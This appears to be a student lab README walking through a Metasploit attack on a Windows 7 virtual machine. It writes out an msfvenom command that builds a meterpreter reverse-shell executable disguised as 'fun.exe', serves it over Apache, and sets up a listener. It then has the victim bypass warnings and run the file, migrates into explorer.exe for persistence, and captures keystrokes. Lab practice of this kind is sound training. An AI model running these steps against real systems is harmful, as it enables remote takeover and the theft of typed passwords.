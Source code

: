 ## EX-6.Compromising-windows-using-Metasploit
## Date:06/04/2024
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0f0a4214-f2dc-4996-8926-eb56392bcc9c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7556fc57-da46-4e95-8513-3751c39f7877)



copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/ef0ae3f2-ed72-4581-a5e3-082fc0c1c662)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/06567d9d-bf5a-46f3-8915-09e660fd0ee6)



Check the status of apache2
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6ce0d347-84b4-4782-9e05-3684db0a972a)



Invoke msfconsole:
## OUTPUT:

![320249831-bcbf9308-5c23-49c0-8ece-39f45528f5f8](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7ea33979-d8fd-44a3-af85-5eb17f520e28)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![320249999-1a4990af-3423-40c9-ac8d-e76ae65172ce](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7782e729-27b3-4b25-9182-9f1ed5a34d68)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/039dce90-c240-40e3-a053-479988b6de5a)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![VirtualBox_Windows 7_07_04_2024_09_28_16](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6d0f5ccd-2d68-4896-807f-14936ab7dfc3)

Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_Windows 7_07_04_2024_09_56_55](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0a74ac36-8755-414c-9030-2c5d9daba5d8)

On kali give the command exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/e52ec7e8-339e-4c61-97d4-6ded61fa3868)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/2e397df3-935e-4231-9552-628e829a336d)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/b8ba91f2-ec16-43fd-b843-7a5720d84935)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/8347aaba-4690-4922-8388-33f496f36796)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6e719e14-830f-4589-a9de-86ebbba28b65)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
